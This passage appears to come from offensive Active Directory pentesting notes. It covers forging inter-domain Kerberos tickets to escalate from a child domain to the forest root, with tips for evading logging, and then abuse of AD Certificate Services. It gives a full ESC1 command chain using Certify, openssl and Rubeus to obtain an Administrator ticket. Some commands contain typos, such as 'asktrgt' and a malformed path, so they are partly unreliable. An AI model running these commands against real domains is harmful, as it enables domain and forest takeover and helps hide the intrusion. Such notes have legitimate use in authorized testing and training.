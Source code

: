 - note the domain (a.k.a intra-realm) trust key is rotated every 30 days automatically and can also be rotated manually
    - this is unlike inter-forest (a.k.a inter-realm) trust keys which do not automatically rotate
- no need to have DA privileges to forge a TGT
    - only need DA privileges to get the hash used for forging a TGT
- therefore, it is enough to compromise one domain in a forest to compromise the entire forest
- note that for the `sids` parameter, it is more stealthy to use the domain controllers group (S-1-5-21-…-516) and the enterprise domain controllers group (S-1-5-9), as it avoids some logs
    - looks like `/sids:S-1-5-21-1004336348-1187298915-682003330-516,S-1-5-9`
- when running remote command on forest root, a `4624` and `4634` will occur (which is normal), but a `4672` Admin Logon event will be triggered as well which is an anomaly
- more opsec safe to use the child DC user to access the forest root DC, rather than using a DA
- it’s normal for two DCs to sync to each other

## AD Certificate Service (CS)

- server role allowing for building a public key infrastructure (PKI) and public key cryptography, digital certificates, and digital signature capabilities
- certificate is issued to a user or machine for authentication, encryption, or signing among many other capabilities
- the certificate template contains the certificate data such as enrollment permissions, EKUs (Extended Key Usages), expiry, etc.

AD CS can be used to (among much more):

1. Extract user and machine certificates
2. Retrieve NTLM hashes
3. Domain persistence
4. DA and EA privesc


- ESC6 will be obsolete May 2023

| Command | Description |
| --- | --- |
| Certify.exe cas | Look for certificate authorities in domain |
| Certify.exe find | Enumerate templates |
| Certify.exe find /vulnerable | Find vulnerable templates |

### Common Misconfigurations

- low-privileged users granted enrollment rights
- manager approval disabled
- auth signatures not required

**ESC1 Exploitation**

Must have enrollment rights and `msPKI-Certificates-Name-Flag` must contain the value of `ENROLLEE_SUPPLIES_SUBJECT`

```powershell
# Request certificate for DA (you can do the same with an EA, just specify the domain under altname like 0xd4y.local\Administrator)
Certify.exe request /ca:<CA_NAME_VALUE> /template:<TEMPLATE_NAME> /altname:Administrator

# Copy cert to a pem file and then convert to PFX for Rubeus and supply a password of follow_0xd4y
openssl.exe pkcs12 -in C:\PATH\TO\cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\PATH\TO\SAVE\cert.pfx

# Request TGT for DA using Rubeus 
Rubeus.exe asktgt /user:Administrator /certificate:C\PATH\TO\cert.pfx /password:follow_0xd4y /ptt

# When requesting TGT for EA use
Rubeus.exe asktrgt /user:0xd4y.local\Administrator /dc:0xd4y.local /certificate:C\PATH\TO\cert.pfx /password:follow_0xd4y /ptt
```